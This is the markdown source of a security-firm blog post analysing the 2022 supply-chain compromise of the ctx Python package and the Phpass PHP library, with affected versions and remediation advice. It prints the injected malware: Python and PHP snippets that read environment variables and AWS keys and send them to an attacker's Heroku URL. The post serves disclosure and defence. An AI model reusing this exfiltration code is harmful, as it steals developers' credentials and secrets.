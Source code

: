 ```yaml
---
title: "How two Python and PHP dependencies, ctx and Phpass, became malware that stole secrets and credentials"
description: A security expert's analysis of the malicious code added to ctx and Phpass, Python and PHP dependencies, that turned them into malware by sending environment variables and credentials to a third party attacker.
slug: ctx-and-phpass-package-malware
date: 2022-05-25T01:37
keywords: [dependencies, ctx, phpass]
tags: [malware, dependencies]
authors: [chris, free, gabe]
---
```


<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

## Popular packages, `ctx` and `Phpass`, compromised

In this post we'll be reviewing the malicious code that was introduced to both `ctx` and `phpass`.

<a href="https://twitter.com/s0md3v/status/1529005758540808192" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/ctx-Twitter-Screenshot.png" alt="Screenshot of ctx Twitter tweet" />
</a>

<!--truncate-->

_Tweet from @s0md3v notifying the developer community about `ctx`._

## Malicious Code in `ctx`

After 7 years, the Python package `ctx` on PyPi received a version update.
A malicious version of `ctx` was published under `0.2.2` as an update to the previous `0.1.2`.

The following code was added to the package:

```python
def __init__(self):
    self.sendRequest()

    # code that performs dict access
    # please DO NOT RUN THIS CODE !

     def sendRequest(self):
        string = ""
        for _, value in environ.items():
            string += value+" "

        message_bytes = string.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')

        response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)
```

### Malware Code Overview

This code does the following:

1. Reads all Environment variables (potentially containing sensitive values like credentials for AWS or the database),
2. Converts the values into `base64` encoding to allow for transport via HTTP,
3. Finally, it sends an HTTP request with the leaked environment variables to the attacker's Heroku App.

## `Phpass` contains similar malware

The PHP library on Composer `Phpass` was also updated with identical malicious code around the same time.

<a href="https://twitter.com/s0md3v/status/1529010306466615296" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/Phpass-Twitter-Screenshot.png" alt="Screenshot of Phpass Twitter tweet" />
</a>

_Tweet from @s0md3v notifying the developer community about `Phpass`._

This malicious code that was added to this package was:

```php
$access = getenv('AWS_ACCESS_KEY');
$secret = getenv('AWS_SECRET_KEY');
$xml = file_get_contents('http://anti-theft-web.herokuapp.com/hacked/$access/$secret');
```
*From the [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk)*

### Most Phpass Users Unaffected

Luckily, the [PHP package](https://packagist.org/packages/hautelook/phpass) derived from the affected repository 
[hautelook/phpass](https://github.com/hautelook/phpass) 
had not received many downloads in the past months. Instead, the [package](https://packagist.org/packages/bordoni/phpass)
for the forked repository [bordoni/phpass](https://github.com/bordoni/phpass) was started to primarily be used by developers well
before the malicious code was published.

The below graphs show the download count of the packages from Packagist (the PHP Package registry powering Composer):

![monthly downloads of the hautelook/phpass library](/img/packagist-hautelook-phpass-downloads.png)

*Monthly downloads of `hautelook/phpass` (malicious version)*

![monthly downloads of the bordoni/phpass library](/img/packagist-bordoni-phpass-downloads.png)

*Monthly downloads of `bordoni/phpass` (safe fork)*

## Remediation Steps

The libraries have all been taken down now. The simplest way to verify that you're safe is to update to the latest
package versions.

If updating isn't an option, you may also verify that you're not using any of the following package versions.

### Affected Package Versions
- `ctx` versions `0.2.2` and `0.2.6` (Python)
- `Phpass` versions are unknown (PHP)
  - It's unlikely more than a few dozen users are affected due to the [small download count](https://web.archive.org/web/20220519155745/https://packagist.org/packages/hautelook/phpass/stats)
  - If you have more information, please tell us on [Discord](https://discord.gg/2EbHdAR5w7) or [GitHub](https://github.com/lunasec-io/lunasec).

## External References

- Archived version of `ctx` [package versions on Pypi](https://archive.ph/xTUEN).

- [Initial post](https://old.reddit.com/r/Python/comments/uumqmm/ctx_new_version_released_after_7_years_750k) observing the package had been updated.

- [Reddit post](https://old.reddit.com/r/Python/comments/uwhzkj/i_think_the_ctx_package_on_pypi_has_been_hacked/) with details about the malicious changes to ctx.

- [Sonatype blog post](https://blog.sonatype.com/pypi-package-ctx-compromised-are-you-at-risk) with details about timeline.

- [Post by SANS ISC InfoSec Forums](https://isc.sans.edu/forums/diary/ctx+Python+Library+Updated+with+Extra+Features/28678/)

## For a limited time, claim an expert security review

Though perhaps unconventional, our team of Security Engineers has been working with startups to audit their dependencies 
and help them manage their security roadmap.

Why? It's simple: By working with us, we also learn about the common problems that companies face while shipping 
software. Helping you enables us to make our Open Source software better.

To get started, please email us at [deps@lunasec.io](mailto:deps@lunasec.io) or 
[schedule a 15-minute call](https://cal.com/lunasec/15min) with one of our engineers.

### Who are we?

If you've heard of [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) or 
[Spring4Shell](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities), then you're familiar with our work already!
We're the security experts that gave those vulnerabilities their name by providing clear, concise advice and 
[building tools to resolve them](https://github.com/lunasec-io/lunasec).

Since then, we've interviewed hundreds of companies to help us build 
[LunaTrace](https://github.com/marketplace/lunatrace-by-lunasec).

What is LunaTrace? It's our Open Source security platform that automatically discovers vulnerabilities in your 
dependencies and gives you expert security guides with remediation steps and automated patches.

Whether you're a developer or a security professional, we'd love to hear from you! Drop us a line by 
[joining our Discord](https://discord.gg/2EbHdAR5w7) or 
trying out LunaTrace on your [GitHub repo for free](https://github.com/marketplace/lunatrace-by-lunasec).


## Updates

1. Original post on 2022-05-24 @ 5pm PDT
2. Added more details about the packages on 2022-05-25 @ 1:30am UTC
